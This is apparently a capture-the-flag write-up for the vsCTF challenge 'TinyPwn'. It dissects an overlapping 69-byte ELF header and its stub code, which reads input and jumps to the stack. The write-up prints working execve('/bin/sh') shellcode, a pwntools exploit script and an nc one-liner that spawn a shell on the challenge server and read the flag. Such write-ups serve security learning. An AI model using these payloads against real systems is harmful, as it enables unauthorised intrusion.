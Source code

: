 ```yaml
---
author: micronoyau
layout: post
date: 2023-09-25 12:00:00 +0200
title: "TinyPwn"
excerpt_separator: <!--more-->
---
```


# TinyPwn

In this challenge, we are given a very small ELF file (only 69 bytes long).
I was clearly inspired by this following article which I strongly ecourage reading : https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html.
The program waits for an input from the user and then immediatly leads to a segfault. The goal is to find the proper input.

## Understanding the ELF structure

As usual, let's try to open and disassemble this file in gdb.

```
"/home/micronoyau/Documents/vsctf/tinypwn/tinypwn": not in executable format: file format not recognized
```

Ooops, gdb does not understand the file structure. But the file is still an elf :
```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ file tinypwn
tinypwn: ELF 32-bit invalid byte order (SYSV)
```

Lets do a quick hexdump to get more insight into this file :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ hexdump -C tinypwn
00000000  7f 45 4c 46 01 00 00 00  00 00 00 00 00 00 01 00  |.ELF............|
00000010  02 00 03 00 34 00 01 00  34 00 01 00 04 00 00 00  |....4...4.......|
00000020  2f 62 69 6e 2f 73 68 00  34 00 20 00 01 00 00 00  |/bin/sh.4. .....|
00000030  00 00 00 00 6a 03 58 bb  00 00 00 00 89 e1 6a 0d  |....j.X.......j.|
00000040  5a cd 80 ff e4                                    |Z....|
00000045
```

There is the string `/bin/sh` at offset 32. Most likely we are going to need that at some point.

The ELF header is the following (please check https://en.wikipedia.org/wiki/Executable_and_Linkable_Format for more details):

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -h tinypwn
ELF Header:
  Magic:   7f 45 4c 46 01 00 00 00 00 00 00 00 00 00 01 00 
  Class:                             ELF32
  Data:                              none
  Version:                           0
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x10034
  Entry point address:               0x10034
  Start of program headers:          4 (bytes into file)
  Start of section headers:          1852400175 (bytes into file)
  Flags:                             0x68732f
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers
```

`readelf` is warning us that the ELF file is potentially corrupt because the section headers offset (`e_shoff`) is `0x2f62696e=1852400175`, but the file specifies there is no section headers.
Ok, we can clearly see there is an overlap between the ELF header and some other data.  More exactly, we can see the program header offset (`e_phoff`) is 4, but the header is 52 bytes long (`e_ehsize`). Lets take a look at the list of segments :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -l tinypwn
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers

Elf file type is EXEC (Executable file)
Entry point 0x10034
There is 1 program header, starting at offset 4

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000000 0x00010000 0x00030002 0x10034 0x10034 R   0x6e69622f
```

The only segment encompasses the entire file and even more (`Offset=0`, `Filesize=0x10034`) at the address `0x10000`. We saw previously in the ELF header that the entrypoint is `0x10034`. Therefore the first instruction is the `0x34=52`th byte in file, right after the end of the header.
Lets disassemble the remaining portion after the header :

```
0:  6a 03                   push   0x3
2:  58                      pop    eax
3:  bb 00 00 00 00          mov    ebx,0x0
8:  89 e1                   mov    ecx,esp
a:  6a 0d                   push   0xd
c:  5a                      pop    edx
d:  cd 80                   int    0x80
f:  ff e4                   jmp    esp
```

Essentially, this does a syscall to `read` (system call number `eax=3`) on stdin (file descriptor `ebx=0`) and stores the result on the stack (`ecx=esp`). We can read up to `edx=0xd=13` characters. Next, it jumps on top of the stack.

The exploit is easy : we just need to input a shellcode to perform a syscall to execve. We know /bin/sh has offset `0x20` in file, so its address in memory is `0x10020`.

```
0:  b0 0b                   mov    al,0xb
2:  bb 20 00 01 00          mov    ebx,0x10020
7:  31 c9                   xor    ecx,ecx
9:  31 d2                   xor    edx,edx
b:  cd 80                   int    0x80 
```

The corresponding shellcode is `\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80`. The null bytes are not a problem because the `read` syscall does not stop until it reaches the end of the buffer or an EOF. But in the heat of the action we forgot this detail and tried to modify this shellcode to remove any `\x00`.

We did not find any shellcode less than 13 bytes to setup properly every register. Instead, we implemented the exact same syscall but changed `edx` to allow for more room :

```
0:  66 ba 10 10             mov    dx,0x1010
4:  b0 03                   mov    al,0x3
6:  cd 80                   int    0x80
```

\x66\xBA\x10\x10\xB0\x03\xCD\x80

Then, all registers are set up accordingly
```
0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  66 bb 02 10             mov    bx,0x1002
7:  c1 e3 04                shl    ebx,0x4
a:  31 c9                   xor    ecx,ecx
c:  31 d2                   xor    edx,edx
e:  cd 80                   int    0x80
```

To account for the padding introduced by this method (at the time of the syscall in the first step, `eip` is somewhere above the stack pointer), we add some NOP instructions between both shellcodes, as shown in this radare2 dump right after the syscall :
![](<r2.png>)

Putting every piece together and using pwntools :

```
from pwn import *

conn = remote('vsc.tf', 3026)
conn.sendline('\x66\x81\xC2\x01\x01\xB0\x03\xCD\x80\n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6A\x0B\x58\x66\xBB\x02\x10\xC1\xE3\x04\x31\xC9\x31\xD2\xCD\x80')
conn.interactive()
```

![](<expl_flag.png>)

Note that, to come back to the beginning of the discussion, that our method is overkill compared to a more optimal solution since we don't need to take special care of NULL bytes :
```
echo -ne '\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80\ncat flag.txt\n' | nc vsc.tf 3026
```
